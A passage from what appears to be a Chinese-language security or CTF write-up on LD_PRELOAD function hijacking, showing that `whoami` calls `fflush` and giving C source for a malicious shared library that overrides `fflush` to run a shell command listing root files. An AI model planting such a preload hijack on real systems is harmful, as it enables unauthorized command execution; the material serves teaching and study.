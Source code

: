 然后我们看`whoami`​调用了哪些静态链接库呢

[![](assets/1708482491-6152389c5e0afbcb744145e1fa3c5e36.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220140736-585663cc-cfb6-1.png)

有`fflush`​,`geteuid`​,`puts`​等等

一开始一直尝试用`puts`​函数来劫持，发现一直成功不了，后面换了`fflush`​之后就成功了 (不太清楚为什么)

这边用`fflush`​进行演示

```plain
#include <stdlib.h>
#include <string.h>
void payload() {
    system("nl /*");
}
int fflush() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

然后通过命令，编译获得我们的恶意`so`​文件
